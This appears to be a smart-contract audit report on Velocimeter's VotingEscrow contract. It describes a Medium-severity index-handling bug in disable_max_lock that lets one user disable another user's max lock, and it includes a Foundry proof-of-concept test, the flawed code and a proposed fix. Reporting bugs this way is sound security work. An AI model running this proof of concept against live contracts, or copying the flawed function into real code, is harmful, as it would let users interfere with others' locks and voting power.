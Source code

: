 Delightful Lavender Goose

Medium

# Incorrect `maxLockIdToIndex` value update in `disable_max_lock` creates unintended behaviour

## Summary
The `enable_max_lock` and `disable_max_lock` functions can be exploited to incorrectly manipulate and disable other user's max locks without any authorization.

## Vulnerability Detail
### Description:
The `enable_max_lock` and `disable_max_lock` functions in the contract are used to manage tokens with a maximum lock. The `max_locked_nfts` array keeps track of these locked tokens, and the `maxLockIdToIndex` mapping stores the index positions of these tokens in the array.

The following Proof of Concept (PoC) illustrates a potential vulnerability:

1. **Alice Creates Max Lock:**
    ```solidity
    maxLockIdToIndex[aliceToken] = 1
    max_locked_nfts = [aliceToken]
    ```
   - Alice enables max lock for her token. The index for Alice's token is set to 1, and the token is added to `max_locked_nfts`.

2. **Alice Disables Max Lock:**
    ```solidity
    maxLockIdToIndex[aliceToken] = 1 // @audit Error. When disabled, index should be set to 0.
    max_locked_nfts = [] // Empty
    ```
   - Alice disables the max lock. The index for her token is incorrectly not reset to 0, leaving it as 1. The `max_locked_nfts` array becomes empty.

3. **Bob Creates Max Lock:**
    ```solidity
    // @audit now both tokens are pointing to the same index.
    maxLockIdToIndex[aliceToken] = 1
    maxLockIdToIndex[bobToken] = 1
    max_locked_nfts = [bobToken]
    ```
   - Bob enables max lock for his token. Both Alice's and Bob's tokens are now pointing to the same index (1). The `max_locked_nfts` array incorrectly shows Bob's token.

4. **Alice Disables Max Lock of Bob:**
    ```solidity
    maxLockIdToIndex[aliceToken] = 0
    maxLockIdToIndex[bobToken] = 1
    max_locked_nfts = []
    ```
   - Alice disables the max lock, but the function incorrectly allows her to disable Bob's token. The index for Bob's token remains 1, and the `max_locked_nfts` array becomes empty.

## Impact
This vulnerability allows one user to disable another user's max lock, which will result in not regularly update users max lock to results in voting from decaying if the user fails to notice.

## POC 
```solidity
    function testCreateLockAndMaxLock() public {
        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week

        uint alice_token = escrow.create_lock(TOKEN_1, lockDuration);

        // escrow.max_lock(alice_token);

        // Enabling Max Lock
        escrow.enable_max_lock(alice_token);

        // Max LockId -> Index set 1.
        assertEq(escrow.maxLockIdToIndex(alice_token), 1);
        // And first index item will be token-1.
        assertEq(escrow.max_locked_nfts(0), alice_token);


        // Disabling Max Lock
        escrow.disable_max_lock(alice_token);
        // @audit maxLockIdToIndex should be 0, when disabled.
        assertEq(escrow.maxLockIdToIndex(alice_token), 1);

        // Index is set, but there is no item in the array actually.
        vm.expectRevert();
        escrow.max_locked_nfts(0);

        // Even the user can't enable it back.
        vm.expectRevert("enabled");
        escrow.enable_max_lock(alice_token);

        address bob = address(0x1337);
        FLOW.transfer(address(flowDaiPair), TOKEN_1);
        DAI.transfer(address(flowDaiPair), TOKEN_1);

        flowDaiPair.mint(bob);

        vm.startPrank(bob);
        flowDaiPair.approve(address(escrow), TOKEN_1);

        uint bob_token = escrow.create_lock(1337, lockDuration);

        escrow.enable_max_lock(bob_token);
        vm.stopPrank();

        assertEq(escrow.maxLockIdToIndex(alice_token), 1);
        assertEq(escrow.maxLockIdToIndex(bob_token), 1);

        assertEq(escrow.max_locked_nfts(0), bob_token);

        escrow.disable_max_lock(alice_token);

        assertEq(escrow.maxLockIdToIndex(alice_token), 0);
        assertEq(escrow.maxLockIdToIndex(bob_token), 1);

        vm.expectRevert();
        escrow.max_locked_nfts(0);

        vm.startPrank(bob);
        // Even the user can't enable it back.
        vm.expectRevert("enabled");
        escrow.enable_max_lock(bob_token);
    }
```
## Code Snippet
```solidity
    function disable_max_lock(uint _tokenId) external {
        assert(_isApprovedOrOwner(msg.sender, _tokenId));
        require(maxLockIdToIndex[_tokenId] != 0,"disabled");

        uint index =  maxLockIdToIndex[_tokenId] - 1;
        maxLockIdToIndex[_tokenId] = 0;

         // Move the last element into the place to delete
        max_locked_nfts[index] = max_locked_nfts[max_locked_nfts.length - 1];
        
        // update the index 
@>>     maxLockIdToIndex[max_locked_nfts[index]] = index + 1;
        
        // Remove the last element
        max_locked_nfts.pop();
    }
```
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L904
## Tool used

Manual Review

## Recommendation
```diff
    function disable_max_lock(uint _tokenId) external {
        assert(_isApprovedOrOwner(msg.sender, _tokenId));
        require(maxLockIdToIndex[_tokenId] != 0,"disabled");

        uint index =  maxLockIdToIndex[_tokenId] - 1;

        // Move the last element into the place to delete
        max_locked_nfts[index] = max_locked_nfts[max_locked_nfts.length - 1];

        if (index != max_locked_nfts.length - 1) {
          // update the index 
          maxLockIdToIndex[max_locked_nfts[index]] = index + 1;        
        }
        maxLockIdToIndex[_tokenId] = 0;
        
        // Remove the last element
        max_locked_nfts.pop();
    }
```